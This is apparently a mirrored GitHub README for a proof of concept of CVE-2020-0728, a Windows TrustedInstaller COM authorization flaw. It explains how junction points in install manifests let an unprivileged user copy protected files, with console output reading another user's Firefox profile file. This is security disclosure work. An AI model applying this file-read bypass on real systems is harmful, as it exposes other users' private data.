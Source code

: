 # CVE-2020-0728

Proof of Concept code for CVE-2020-0728

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/irsl](https://github.com/irsl) |
| Url      | [https://github.com/irsl/CVE-2020-0728](https://github.com/irsl/CVE-2020-0728)                                               |
| Stars    | 46                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

CVE-2020-0728
=============

Details
-------

The `TrustedInstaller.exe` service is running as `NT_AUTHORITY\SYSTEM` and is hosting the Sxs Store Class (`3C6859CE-230B-48A4-BE6C-932C0C202048`) COM service along with the interface `ISxsStore`. 
The access permissions (O:BAG:BAD:(A;;CCDCLC;;;PS)(A;;CCDC;;;SY)(A;;CCDC;;;BA)(A;;CCDC;;;IU)(A;;CCDC;;;SU)) of this service grants access to any users 
on the local system.
The `ISxsStore` interface exposes 4 methods:

```
[Guid("8601319a-d7cf-40f3-9025-7f77125453c6")]
interface ISxsStore : IUnknown {
    HRESULT BeginAssemblyInstall(/* Stack Offset: 8 */ [In] int p0);
    HRESULT InstallAssembly(/* Stack Offset: 8 */ [In] int p0, /* Stack Offset: 16 */ [In] wchar_t* p1, /* Stack Offset: 24 */ [In] struct Struct_0* p2, /* Stack Offset: 32 */ [In] struct Struct_1* p3);
    HRESULT EndAssemblyInstall(/* Stack Offset: 8 */ [In] int p0, /* Stack Offset: 16 */ [Out] int* p1);
    HRESULT UninstallAssembly(/* Stack Offset: 8 */ [In] int p0, /* Stack Offset: 16 */ [In] wchar_t* p1, /* Stack Offset: 24 */ [In] struct Struct_1* p2, /* Stack Offset: 32 */ [In] int* p3);
}
```

Upon invocation, the implementation calls out to the `ICbsWorker` interface hosted by `TiWorker.exe` (again, running as `NT_AUTHORITY\SYSTEM`) to obtain an `ICbsSession8` session
and then practically calls the same methods on this interface.
The real logic is implemented in the `sxsstore.dll` library; authorization can be found in `CSxsStore::BeginAssemblyInstall`:

```
uVar1 = SxspEnsureComClientIsAdmin((void **)this);
```

This is done using `CoImpersonateClient`+`CheckTokenMembership` calls.

The problem is, if the session hosted by the `TiWorker.exe` process is invoked via the `TrustedInstaller.exe` wrapper, the authorization logic implemented always encounters connections from `NT_AUTHORITY\SYSTEM`
and thus grants access to anyone.

The assemblies requested to be installed are placed under `C:\Windows\WinSXS` by the implementation residing in `wcp.dll` (`Windows::COM::CComponentStore::InternalTransact`) and
seems to feature sufficient security measures to protect these method calls to escape from this legitimate destination directory, but the source files referenced by the 
manifest can be abused via junction points.

This can be exploited to bypass file system DAC and read any files on the local filesystem as demonstrated below:


```
	Microsoft Windows [Version 10.0.18362.592]
	(c) 2019 Microsoft Corporation. All rights reserved.

	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>whoami
	desktop-43rnlku\unprivileged

	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                          State
	============================= ==================================== ========
	SeShutdownPrivilege           Shut down the system                 Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
	SeUndockPrivilege             Remove computer from docking station Disabled
	SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
	SeTimeZonePrivilege           Change the time zone                 Disabled


	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>type "C:\Users\John Doe\AppData\Roaming\Mozilla\Firefox\profiles.ini"
	Access is denied.


	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>sxscopy.exe "C:\Users\John Doe\AppData\Roaming\Mozilla\Firefox\profiles.ini" profiles.ini
	sxscopy: C:\Users\John Doe\AppData\Roaming\Mozilla\Firefox\profiles.ini => profiles.ini
	Creating helper junction sxscopy.junction -> C:\
	Junction created for sxscopy.junction <<===>> C:\
	Executing DCOM magic with manifest file C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon\sxscopy.manifest
	Exploitation has succeeded, copy of the source file was placed inside WinSXS
	Copy has succeeded!

	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>type profiles.ini
	[Install308046B0AF4A39CB]
	Default=Profiles/5bqqo33l.default
	Locked=1

	[Profile2]
	Name=johndoe
	IsRelative=1
	Path=Profiles/5bqqo33l.default
	Default=1

	[Profile1]
	Name=default
	IsRelative=1
	Path=Profiles/x89vbmzf.default

	[Profile0]
	Name=default-release
	IsRelative=1
	Path=Profiles/1kmhc44f.default-release

	[General]
	StartWithLastProfile=1
	Version=2
```

The wcp framework is actually quite complex and and features various 'installers' (e.g. GenericCommand execution among the 'advanced' ones), 
but the interface accessible above seems to be limited to only the 'primitive installers'. I could trigger executing 
`CRegistryInstaller::CommitChanges` that emitted log to `C:\Windows\Logs\CBS\CBS.log`, lines like:

```
2020-01-18 15:58:16, Info                  CSI    0000000c Registry installer wrote xxx values
```

But it actually never really called any API methods to change anything in the registry. 


Credits
-------
The report above along with the PoC code was submitted by Imre Rad but was also identified by researchers of NCC (actually a few months earlier).

Links
-----
https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-0728



## Get the content

```
git clone https://github.com/irsl/CVE-2020-0728
cd CVE-2020-0728
```

{% embed url="https://github.com/irsl/CVE-2020-0728" %}

<figure><img src="https://avatars.githubusercontent.com/u/6357121?v=4" alt=""><figcaption><p>irsl</p></figcaption></figure>
